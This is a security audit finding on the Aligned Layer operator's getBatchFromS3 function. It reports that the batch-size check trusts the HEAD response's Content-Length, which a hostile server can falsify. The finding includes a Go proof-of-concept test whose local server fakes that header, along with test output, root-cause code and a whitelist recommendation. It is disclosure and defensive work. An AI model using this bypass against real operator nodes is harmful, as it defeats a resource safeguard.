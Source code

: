 # Bypass length check in `Operator.GetBatchS3`

**Author(s):** Mohammed Benhelli [@Fuzzinglabs](https://github.com/FuzzingLabs/)

**Date:** 01/08/2024

### **Executive summary**

During the process of auditing the code and developing fuzzing harnesses, we found that the `getBatchS3` method
of `Operator` is vulnerable to a bypass length check attack via a crafted HTTP response for example.

### Vulnerability Details

- **Severity:** High
- **Affected Component:** `operator/pkg/s3.go`

## Environment

- **Distro Version:** Ubuntu 22.04.4 LTS
- **Additional Environment Details:** go version go1.22.5 linux/amd64

## Steps to Reproduce

To demonstrate the issue, we provide a Proof of Concept (POC) to show that the bug can be triggered in the `operator`
package.

1. Create a text file in your test folder, here `aligned_layer/fuzzinglabs/operator`:
   ```sh
    echo "That would be rejected" > bypass_length_test.txt
   ```
2. Create a file in your test folder with the following content:
   ```go
   package operator_test
   
   import (
       "github.com/Layr-Labs/eigensdk-go/logging"
       "github.com/ethereum/go-ethereum/common"
       servicemanager "github.com/yetanotherco/aligned_layer/contracts/bindings/AlignedLayerServiceManager"
       "github.com/yetanotherco/aligned_layer/core/config"
       operator "github.com/yetanotherco/aligned_layer/operator/pkg"
       "net/http"
       "os"
       "strconv"
       "strings"
       "testing"
   )
   
   const LimitOperatorBatchSize = 10
   
   func TestGetBatchS3BypassLength(t *testing.T) {
       go startBypassLengthTestServer(t)
       logger, err := config.NewLogger(logging.Production)
       if err != nil {
           t.Fatalf("Error creating logger: %v", err)
       }
       op := operator.Operator{
           Logger: logger,
           Config: config.OperatorConfig{
               Operator: struct {
                   AggregatorServerIpPortAddress string
                   Address                       common.Address
                   EarningsReceiverAddress       common.Address
                   DelegationApproverAddress     common.Address
                   StakerOptOutWindowBlocks      int
                   MetadataUrl                   string
                   RegisterOperatorOnStartup     bool
                   EnableMetrics                 bool
                   MetricsIpPortAddress          string
                   MaxBatchSize                  int64
               }{MaxBatchSize: LimitOperatorBatchSize},
           },
       }
       newBatchLog := &servicemanager.ContractAlignedLayerServiceManagerNewBatch{
           BatchMerkleRoot:  [32]byte([]byte("[\t\t\t\t\t\t\t\t\t\t\t\t\\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t]")),
           BatchDataPointer: "http://localhost:8080",
       }
       if err := op.ProcessNewBatchLog(newBatchLog); err != nil {
           if strings.Contains(err.Error(), "exceeds max batch size") {
               t.Fatal("This test should bypass the length check")
           }
       }
   }
   
   func startBypassLengthTestServer(t *testing.T) {
       http.HandleFunc("/", handleRequestBypassLength)
       t.Fatal(http.ListenAndServe(":8080", nil))
   }
   
   func handleRequestBypassLength(w http.ResponseWriter, r *http.Request) {
       switch r.Method {
       case http.MethodHead:
           w.Header().Set("Content-Length", strconv.Itoa(LimitOperatorBatchSize))
       case http.MethodGet:
           content, err := os.ReadFile("bypass_length_test.txt")
           if err != nil {
               http.Error(w, "File not found", http.StatusNotFound)
               return
           }
           w.Header().Set("Content-Encoding", "txt")
           if _, err := w.Write(content); err != nil {
               return
           }
       default:
           http.Error(w, "Method not allowed", http.StatusMethodNotAllowed)
       }
   }
   ```
3. Run the test:
   ```sh
   go test github.com/yetanotherco/aligned_layer/fuzzinglabs/operator
   ```

## Root Cause Analysis

The root cause is located in `operator/pkg/s3.go`.

```go
package operator
...
func (o *Operator) getBatchFromS3(batchURL string, expectedMerkleRoot [32]byte) ([]VerificationData, error) {
	...
	resp, err := http.Head(batchURL)
	if err != nil {
		return nil, err
	}

	// Check if the response is OK
	if resp.StatusCode != http.StatusOK {
		return nil, fmt.Errorf("error getting Proof Head from S3: %s", resp.Status)
	}

	if resp.ContentLength > o.Config.Operator.MaxBatchSize {
		return nil, fmt.Errorf("proof size %d exceeds max batch size %d",
			resp.ContentLength, o.Config.Operator.MaxBatchSize)
	}
    ...
}
```

Making a `HEAD` request to the batch URL in order to get the content length can be bypassed if the server does not
return the correct content length.

## Detailed Behavior

```sh
=== RUN   TestGetBatchS3BypassLength
{"level":"info","ts":1722606626.9207094,"caller":"pkg/operator.go:177","msg":"Received new batch with proofs to verify","batch merkle root":[91,9,9,9,9,9,9,9,9,9,9,9,9,92,116,9,9,9,9,9,9,9,9,9,9,9,9,9,9,9,9,9]}
{"level":"info","ts":1722606626.9207475,"caller":"pkg/s3.go:13","msg":"Getting batch from S3..., batchURL: http://localhost:8080"}
{"level":"info","ts":1722606626.942076,"caller":"pkg/s3.go:46","msg":"Verifying batch merkle tree..."}
{"level":"error","ts":1722606626.9842112,"caller":"pkg/operator.go:183","msg":"Could not get proofs from S3 bucket: merkle root check failed","stacktrace":"github.com/yetanotherco/aligned_layer/operator/pkg.(*Operator).ProcessNewBatchLog\n\t/home/john/FuzzingLabs/aligned_layer/operator/pkg/operator.go:183\ngithub.com/yetanotherco/aligned_layer/fuzzinglabs/operator_test.TestGetBatchS3BypassLength\n\t/home/john/FuzzingLabs/aligned_layer/fuzzinglabs/operator/get_batch_s3_bypass_length_test.go:45\ntesting.tRunner\n\t/home/john/sdk/go1.22.5/src/testing/testing.go:1689"}
--- PASS: TestGetBatchS3BypassLength (0.07s)
PASS
```

## Recommendations

This issue can be fixed by allowing a whitelist of domains that are allowed to host a batch file. This way, the operator
can check if the domain is allowed to host the batch file and if the content length is correct.